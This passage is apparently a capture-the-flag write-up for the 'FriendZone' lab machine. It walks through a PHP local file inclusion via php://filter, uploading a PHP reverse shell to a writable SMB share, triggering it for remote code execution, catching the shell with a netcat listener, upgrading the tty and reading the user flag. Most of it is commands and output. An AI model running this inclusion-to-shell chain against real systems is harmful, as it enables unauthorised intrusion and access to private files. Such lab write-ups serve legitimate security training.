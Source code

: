 I this https://www.idontplaydarts.com/2011/02/using-php-filter-for-local-file-inclusion/ requesting for login page `?image_id=a.jpg&pagename=php://filter/convert.base64-encode/resource=login` and it works. but I dont know why I can request for `../../../../../etc/passwd`. I assume that it only allow us to get .php file.


Back when we enum smb using nmap script. Note that We have write permission to it. The plan if we upload a php revershell and use LFI to execute it.
```console
└─$ smbclient //friendzone.red/Development                                                 130 ⨯
Enter WORKGROUP\kali's password: 
Try "help" to get a list of possible commands.
smb: \> put cutiecat.php 
putting file cutiecat.php as \cutiecat.php (26.8 kb/s) (average 26.8 kb/s)
```
now vist `?image_id=a.jpg&pagename=php://filter/convert.base64-encode/resource=/etc/Development/cutiecat`, it return our reverse shell src code. Let request for `?image_id=a.jpg&pagename=php:/etc/Development/cutiecat` for RCE!!
```console
└─$ nc -nlvp 6969                                      
listening on [any] 6969 ...
connect to [10.10.14.43] from (UNKNOWN) [10.10.10.123] 50986
Linux FriendZone 4.15.0-36-generic #39-Ubuntu SMP Mon Sep 24 16:19:09 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 20:02:26 up  2:40,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
# user
```console
$ python3 -c "import pty; pty.spawn('/bin/bash')"
www-data@FriendZone:/$ ^Z
zsh: suspended  nc -nlvp 6969
                                                                                                             
┌──(kali㉿kali)-[~]
└─$ stty raw -echo;fg                                                                              148 ⨯ 1 ⚙
[1]  + continued  nc -nlvp 6969
                               export TERM=xterm
www-data@FriendZone:/$ ls
bin   home	      lib64	  opt	sbin	  tmp	   vmlinuz.old
boot  initrd.img      lost+found  proc	srv	  usr
dev   initrd.img.old  media	  root	swapfile  var
etc   lib	      mnt	  run	sys	  vmlinuz
www-data@FriendZone:/$ ls /home
friend
www-data@FriendZone:/$ ls -la /home/friend/
total 36
drwxr-xr-x 5 friend friend 4096 Jan 24  2019 .
drwxr-xr-x 3 root   root   4096 Oct  5  2018 ..
lrwxrwxrwx 1 root   root      9 Jan 24  2019 .bash_history -> /dev/null
-rw-r--r-- 1 friend friend  220 Oct  5  2018 .bash_logout
-rw-r--r-- 1 friend friend 3771 Oct  5  2018 .bashrc
drwx------ 2 friend friend 4096 Oct  5  2018 .cache
drwx------ 3 friend friend 4096 Oct  6  2018 .gnupg
drwxrwxr-x 3 friend friend 4096 Oct  6  2018 .local
-rw-r--r-- 1 friend friend  807 Oct  5  2018 .profile
-rw-r--r-- 1 friend friend    0 Oct  5  2018 .sudo_as_admin_successful
-r--r--r-- 1 root   root     33 Oct  6  2018 user.txt
www-data@FriendZone:/$ cat /home/friend/user.txt 
```
let's check web dir.